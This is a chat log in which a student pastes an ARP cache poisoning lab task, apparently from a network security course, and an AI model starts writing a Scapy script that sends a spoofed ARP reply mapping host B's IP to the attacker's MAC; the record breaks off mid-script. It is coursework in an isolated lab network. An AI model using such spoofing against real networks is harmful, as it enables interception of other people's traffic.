 On host M, construct an ARP reply packet and send to host A. Check A’s ARP cache, and see whether M’s MAC address is mapped to B’s IP address. Try the attack for two different scenarios:

    Scenario 1: B’s IP is already in A’s cache.
    Scenario 2: B’s IP is not in A’s cache.

Sample Screenshots - Scenario 1:

Screen_Shot_2022-04-07_at_5.47.37_PM.png

Sample Screenshots - Scenario 2:

Screen_Shot_2022-04-07_at_5.48.00_PM.png

Question: Which scenario works, and which does not? Answer for yourself, answer is not collected.

Submission: Capture this attack on Wireshark (along with the previous attack) and submit it on Gradescope.

![pasted-370917.png](https://utfs.io/f/IN4OjmY4wMHBN82zJIbywGhqx2S0UTFMX8ts5aZ6Lzv79ir3)
![pasted-376398.png](https://utfs.io/f/IN4OjmY4wMHBfNY6tV7lo8HJNPbtzKhcYD5MVAlqm6yOvdCw)

---

### Assistant (gemini-2.5-pro)

Excellent, Task 1.A was successful! Now let's move on to Task 1.B, using an ARP *reply* packet.

**Goal:** Poison Host A's ARP cache using a crafted ARP reply sent from Host M, again mapping B's IP (`10.9.0.6`) to M's MAC (`02:42:0a:09:00:69`). We need to test this under two conditions.

**Steps:**

1.  **Create the Python Script (on Host M):**
    Create a file named `task1b.py` on Host M:
    ```python
    #!/usr/bin/env python3

    from scapy.all import Ether, ARP, sendp

    # Define the IP and MAC addresses based on your settings.txt
    IP_A = "10.9.0.5"
    MAC_A = "02:42:0a:09:00:05"
    IP_B = "10.9.0.6"
    MAC_M = "02:42:0a:09:00:69" # Attacker's MAC

    print("--- Sending Malicious ARP Reply ---")
    print(f"Spoofing ARP Reply: {IP_B} is at {MAC_M}")
    print(f"Targeting Host A ({IP_A}) at MAC {MAC_A}")

    # Construct the Ethernet frame
    # Source MAC is the attacker's MAC (MAC_M)
    # Destination MAC is Host A's MAC (MAC_A)
    ether = Ether(src=MAC_M, dst=MAC_A)
